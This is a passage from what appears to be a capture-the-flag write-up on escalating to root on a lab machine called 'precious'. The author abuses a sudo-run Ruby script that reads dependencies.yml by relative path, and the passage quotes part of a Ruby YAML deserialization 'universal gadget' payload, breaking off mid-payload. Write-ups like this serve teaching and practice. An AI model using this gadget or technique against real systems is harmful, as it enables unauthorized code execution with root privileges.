 Apparently it can't find `dependencies.yml` :thinking: Hmm... that seems a little broken. If it's not adjacent to `update_dependencies.rb`, where is it?

```
henry@precious:~$ find / -name "dependencies.yml" 2>/dev/null
/opt/sample/dependencies.yml
```

> :thumbsup: Ah, OK. Looking over  `update_dependencies.rb` again, I see that it's using a relative path for loading `dependencies.yml`.
> :thumbsdown: But... I don't have any way of writing to the directory from which it will load `dependecies.yml` 

I'll try copying the sample file into `/home/henry` just to see what happens

```
henry@precious:~$ cp /opt/sample/dependencies.yml .
henry@precious:~$ sudo ruby /opt/update_dependencies.rb 
Installed version differs from the one specified in file: yaml
Installed version is equals to the one specified in file: pdfkit
```

:flushed: Wait... WHAT?! No way. It actually ran? It didn't fail to find `dependencies.yml`???
Ruby must have some kind of environment variable that it sets when it runs, some kind of internal PATH that includes the directory where the command was invoked from. Why on earth would it do that?

### Aside: How do filepaths work with ruby's File.read() ?

Just to check if the above conclusion is true, I tried three more things:

1. Running `/opt/update_dependenceies.rb` from a directory unrelated to `dependencies.yml` (/tmp)
2. Running `/opt/update_dependenceies.rb` from a child directory to the one containing `dependencies.yml`
3. Moving `dependencies.yml` into that child directory then running `/opt/update_dependenceies.rb` from that dir's parent.

![file open path handling in ruby](file%20open%20path%20handling%20in%20ruby.png)

All three failed. Thank goodness. If any of those worked, that would have been phenomenally stupid.


### Back to privesc

Since we don't even need write permissions to `/opt` to run  `/opt/update_dependenceies.rb` using a custom YAML file, this is suddenly going to be much easier.

Certain that this has been done before, I googled the innocuous terms "Ruby YAML deserialization". Only a few results down were several writeups with PoC code to exploit Ruby's unsafe handling of `YAML.load()`. One of the results was [a page in PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md).

Since the payload is dependent on ruby version, I checked the ruby version on the target machine with `ruby -v`: it is 2.7.4. There is a section of the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) page applicable to this version, with the following "universal gadget":

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
```